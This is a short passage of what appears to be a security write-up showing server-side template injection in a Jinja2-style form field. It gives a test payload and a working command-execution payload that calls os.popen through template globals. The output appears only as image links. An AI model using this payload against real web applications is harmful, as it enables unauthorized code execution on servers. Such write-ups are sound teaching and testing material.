 Let's try the typical payload: `{{ 7 * 7 }}`

![poc](images/poc.png)

### 3.1 Execute POC
#
I try a simple payload to see if I can get system execution via this SSTI: 

    {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}

On submitting that as the name, the result returns:

<p align="center">
  <img src="images/execute.png" />
</p>
